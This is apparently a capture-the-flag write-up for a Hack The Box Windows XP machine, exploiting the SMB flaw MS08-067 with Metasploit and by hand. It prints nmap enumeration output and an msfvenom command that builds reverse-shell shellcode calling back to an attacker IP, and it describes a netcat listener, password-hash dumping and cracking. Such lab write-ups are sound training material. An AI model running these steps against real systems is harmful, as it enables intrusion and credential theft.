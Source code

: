 # Legacy

## Overview

Legacy is a pretty straightforward machine which exploits SMB on Windows. This machine showcases CVE-2008-4250 / ms08\_067.

1. [https://nvd.nist.gov/vuln/detail/cve-2008-4250](https://nvd.nist.gov/vuln/detail/cve-2008-4250)
2. [https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250)
3. [https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15](https://support.microsoft.com/en-us/topic/ms08-067-vulnerability-in-server-service-could-allow-remote-code-execution-ac7878fc-be69-7143-472d-2507a179cd15)

## Enumeration

### Nmap

```bash
sudo nmap -Pn -sV -sC 10.129.1.111 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 10:41 EDT
Nmap scan report for 10.129.1.111
Host is up (0.021s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:ec:a3 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-03-28T19:39:25+03:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.34 seconds
```

From the Nmap scan, we see that SMB is open and the OS is Windows XP



A handy command that we can run for SMB vulnerability identification is the following:

```bash
sudo nmap --script smb-vuln* -p 445 10.129.1.111
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-23 10:49 EDT
Nmap scan report for 10.129.1.111
Host is up (0.021s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 5.45 seconds
```

The above command shows this machine is vulnerable to 2 SMB vulnerabilities.

## Exploitation with Metasploit

Using the Metasploit module `exploit/windows/smb/ms08_067_netapi`, we'll set up our payload as such:

![](<../../../../.gitbook/assets/image (49) (2).png>)

![](<../../../../.gitbook/assets/image (69).png>)

{% hint style="info" %}
To set options (e.g. RHOSTS), enter "set RHOST \[target IP]"
{% endhint %}

With this information entered, we can now run the exploit with `run` or `exploit`

![](<../../../../.gitbook/assets/image (43) (1) (1).png>)

As shown in the image above, running getuid returns us NT AUTHORITY\SYSTEM which means no privilege escalation is needed as we have the highest privileges on the current system.

## Exploitation without Metasploit

The exploit I used can be found here:

{% embed url="https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py" %}

The script explains how to achieve your goal with showing where to make modifications and what commands to run

First I run the msfvenom command mentioned in the code.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
```

![](<../../../../.gitbook/assets/image (57).png>)

Then replace the shellcode in the code with the shellcode we just generated.

Running an nmap scan on the target once more with -O (OS Detection) reveals that the target is running Microsoft Windows XP SP3 (94%). With this is mind, we'll trying using this sample command

![](<../../../../.gitbook/assets/image (67) (1).png>)

Let's set up a netcat listener and then run the command and you should get a reverse shell.

I've followed these articles, but had no success.

{% embed url="https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010" %}

{% embed url="https://blog.nullprism.io/posts/htb-legacy" %}

## Post Exploitation

One thing we can do with the meterpreter shell is run a hashdump on the target

![](<../../../../.gitbook/assets/image (48).png>)

We can then take these hashes and crack them with JohnTheRipper or Hashcat
